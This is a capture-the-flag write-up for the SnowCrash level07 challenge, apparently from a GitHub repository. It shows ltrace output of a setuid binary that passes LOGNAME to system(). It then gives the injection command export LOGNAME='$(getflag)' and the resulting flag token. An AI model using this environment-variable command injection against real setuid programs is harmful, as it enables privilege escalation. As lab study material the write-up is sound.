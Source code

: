 In our home directory, we just see an executable
```
level07@SnowCrash:~$ ls -la level07
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Let's just start by analyzing level07 with `ltrace` :
```
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid() = 2007
geteuid() = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME") = "level07
asprintf(0xbffff6f4, 0x8048688, 0xbfffff31, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 0
+++ exited (status 0) +++
```

We observe that the executable calls getenv to retrieve the LOGNAME environment variable and uses echo to print its value. To exploit this, we can change the value of LOGNAME by exporting it with the following command:
`export LOGNAME='$(getflag)' `

Then, simply run the executable ./level07 to display the flag:
```
flag07@SnowCrash:~$ ./level07
Check flag.Here is your token :fiumuikeil55xe9cu4dood66h
```
